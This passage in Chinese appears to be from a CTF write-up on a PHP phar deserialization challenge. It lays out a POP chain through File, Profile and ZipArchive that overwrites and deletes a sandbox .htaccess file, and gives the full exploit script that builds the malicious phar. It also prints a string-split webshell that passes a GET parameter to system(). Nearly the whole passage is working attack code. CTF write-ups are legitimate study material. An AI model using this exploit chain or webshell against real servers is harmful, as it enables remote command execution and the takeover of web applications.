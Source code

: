 构造出如下 POP 链：

```php
File::__destruct() => $this->checker(Profile)->upload_file();
Profile::__call()  => $this->admin(ZipArchive)->open($this->username, $this->password);
ZipArchive::open('.htaccess', ZIPARCHIVE::OVERWRITE)
```

对应构造 exp 如下：

```php
<?php
class File{
    public $filename;
    public $filepath;
    public $checker;
}

class Profile{
    public $username;
    public $password;
    public $admin;
}


$o = new File();
$o->checker=new Profile();
$o->checker->admin=new ZipArchive();
$o->checker->username="./sandbox/fd40c7f4125a9b9ff1a4e75d293e3080/.htaccess";
$o->checker->password=ZIPARCHIVE::OVERWRITE;

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
?>
```

接下来需要上传一个 bypass 限制的 webshell，然后再触发反序列化删掉 `.htaccess`文件即可 getshell.


```php
<?php
$z="sys"."tem";
$z($_GET[0]);
```


![](/assets/images/move/20190915115058.png)
